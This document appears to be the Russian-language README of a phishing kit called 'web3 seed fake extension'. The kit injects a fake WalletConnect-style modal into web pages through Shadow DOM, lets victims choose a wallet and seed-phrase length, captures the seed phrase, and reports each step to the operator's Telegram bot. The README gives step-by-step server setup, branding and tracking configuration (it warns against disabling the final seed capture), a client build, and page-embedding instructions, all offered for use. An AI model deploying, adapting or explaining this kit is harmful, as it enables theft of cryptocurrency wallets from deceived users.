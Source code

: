 # web3 seed fake extension

## Описание

Это модальное окно, которое внедряется через ShadowDOM, которое похоже на [Wallet Connect](https://walletconnect.network/). Можно настроить полный список кошельков для выбора, либо добавить свои. Также после каждого действия пользователя телеграм бот "отстукивает" в личные сообщения (можно настроить этапы).

<video src="https://www.youtube.com/embed/DEAVbOs7d_4?si=6KrW9vDwbBAEUuOt"></video>

## Сервер

Название папки `server`

### Установка Node.JS на ВМ

Перходим в главную директорию

```
cd
cd ..
```

Начинаем установку Node.JS

````ubuntu
sudo apt install build-essential checkinstall
sudo apt install libssl-dev```
wget -qO- https://raw.githubusercontent.com/creationix/nvm/v0.33.8/install.sh | bash
source ~/.profile
source ~/.bashrc
nvm install 20.17.0
````

После установки, выполняем команду `node -v`
В консоли должно быть следующее: `v20.17.0`

### Установка сервера

Копируем, переходим в папку с сервером и устанавливаем зависимости.

```ubuntu
cd /your-folder
npm install
```

### Настройки бота

В файле `.env` меняем на токен собственного телеграм бота и на наш чат id.

ID чата можно узнать здесь `https://api.telegram.org/bot{Token}/getUpdates`
\*Вместо `{Token}` подставить токен бота. В `message.chat.id` будет лежать id чата (перед нужно отправить любое сообщение боту).

### Настройки кошельков

Настройка кошельков осуществляется в файле `wallets_config.json`

```json5
{
"wallets":
    [
        {
          "name": "metamask", //Имя кошелька, позже оно выводится в маршруте, который принимает данные
          "title": "Metamask", //Отображаемое имя кошелька (будет отображаться в качестве названия кошелька)
          "image": "metamask.svg", //Картинка, хранится в папке public (Указываем просто название файла)
          "primarycolor": "#ed9f45", //Основновной цвет темы
          "secondarycolor": "#ed9f4540", //Дополнительный (полупрозрачный)
          "textcolor": "#8c5e29" //Цвет текста на кнопке
        },
     ...
    ]
}
```

Какие цвета за что отвечают
[![instruction.png](https://i.postimg.cc/CKKzhNpf/instruction.png)](https://postimg.cc/0zL8Z7Q8)

Кошельки принимаются клиентом одним массивом, выводятся в порядке очереди.

### Настроки отслеживания действий

Данная настройка осуществляется в файле `request_config.json`

```json5
{
  enter: true, //отслеживание открытия модального окна
  choosewallet: true, //отслеживание выбора кошелька
  chooseseed: true, //отслеживание выбора длины сид фразы
  seed: true, //отключение финального запроса (Если по какой-то причине требуется отключить, но РЕКОМЕНДАЦИЯ! НЕ ТРОГАТЬ ДАННУЮ НАСТРОЙКУ!)
}
```

### (Пропускаем, необязательный пункт) Настройка CORS

В `src/index.js` есть закомментированный код перед регистрацией `fastifyCors`

```
(origin, cb) => {
        if (corsConfig.domains.indexOf(origin) !== -1 || !origin) {
          cb(null, true);
        } else {
          cb(new Error('Not allowed by CORS'));
        }
      },
```

Его нужно вставить вместо `'*',` в `origin: '*',`

Настройка CORS доменов осуществляется в файле `cors.config.js`

```javascript
{
    domains: [
    'https://mydomain.com', 'https://mydomain.ru', 'https://mydomain.io', ...
    ]
}
```

Просто добавляем нужный домен в массив.

### Запуск сервера

Запускаем сервер (По умолчанию на порту `443`).

```bash
npm start
```

## Клиент

Название папки `vue-project`

### Настройка доменов для запроса

В файле `src/views/Main.vue` на `19` и `30` строчках меняем домен.
В файле `src/views/Connect.vue` на `28` строчке меняем домен.

### Сборка

Перед сборкой убедитесь, что `vite.config.js` совпадает с настройками ниже.

```javascript
import { defineConfig } from "vite";
import vue from "@vitejs/plugin-vue";

export default defineConfig({
  plugins: [vue()],
  define: {
    "process.env": {}, // Можно убрать, но не стоит
  },
  build: {
    lib: {
      entry: "./src/main.js",
      name: "WalletModal",
      fileName: (format) => `wallet-modal.${format}.js`,
    },
    rollupOptions: {
      external: ["vue"],
      output: {
        globals: {
          vue: "Vue",
        },
      },
    },
  },
  resolve: {
    alias: {
      "@": "/src",
    },
  },
});
```

Далее собираем проект (Лучше всего делать на локальной машине. Требуется скачать и установить Node.js, если его нет, тут [Ссылка](https://nodejs.org/en))

Далее через Командную строку

```bash
cd ./your-folder
npm install
npm run build
```

В папке `./dist` будет несколько файлов, переносим все на ВМ.

## Настройка `wallet-dom-init.js` и подключение модуля к странице

### Настройка `wallet-dom-init.js`

Открываем файл, на строчке `24` в `@import url('http://localhost:3000/style.css');` вместо `http://localhost:3000` прописываем домен, где размещены файлы из сборки.
Сохраняем и перекидываем этот файл туда же.

### Подключение модуля

Делаем напрямую в `index.html`

! `https://domain.com/` меняем на актуальный домен, где расположен клиент.

Подключается через `Shadow DOM`, чтобы избежать конфликт стилей.

1. Подключаем Vue глобально
2. Подключение клиента
3. Устанавливаем клиент через кастомный элемент `<wallet-modal>` (лучше разместить этот элемент сразу после `<body>`)

```html
<head>
  <script src="https://unpkg.com/vue@3.3.0/dist/vue.global.js"></script>
  <script src="https://domain.com/wallet-modal.umd.js"></script>
  <script async src="https://domain.com/wallet-dom-init.js"></script>
</head>

<body>
  <wallet-modal></wallet-modal>
</body>
```
